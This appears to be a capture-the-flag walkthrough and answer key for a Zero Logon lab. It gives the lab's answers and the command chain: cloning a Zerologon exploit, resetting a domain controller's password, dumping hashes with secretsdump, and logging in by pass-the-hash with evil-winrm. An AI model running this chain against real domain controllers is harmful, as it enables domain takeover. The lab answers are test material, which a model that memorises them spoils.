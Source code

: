 # Zero Logon

- Read about Zero Logon

	  no answer needed

- Install Impacket in a Virtual Environment 

	  no answer needed

- What method will allow us to change Passwords over NRPC?

	- `NetrServerPasswordSet2`

- What are the required fields for the method per the Microsoft Documentation?

	- `PrimaryName, AccountName, SecureChannelType, ComputerName, Authenticator, ReturnAuthenticator, ClearNewPassword`

- What Opnumber is the Method?

	- `30`

- Modify the PoC

	- `git clone https://github.com/Sq00ky/Zero-Logon-Exploit`

- What is the NetBIOS name of the Domain Controller?

	- `nmap -sV -sC -oA scans/initial <TARGET_IP>`
	- `DC01`

- What is the NetBIOS domain name of the network?

	- `HOLOLIVE`

- What domain are you attacking?

	- `hololive.local`

- What is the Local Administrator's NTLM hash?

	- `python3 zerologon-NullPass.py DC01 <TARGET_IP>`
	- `secretsdumps.py -just-dc -no-pass DC01\$@<TARGET_IP>`
	- `Administrator:500:aad3b435b51404eeaad3b435b51404ee:*********************************:::`

- How many Domain Admin accounts are there?

	- `2`

- What is the root flag?

	- `evil-winrm -u Administrator -H ********************************* -i <TARGET_IP>`
	- `cd ..`
	- `cat root.txt`
	- `********************`

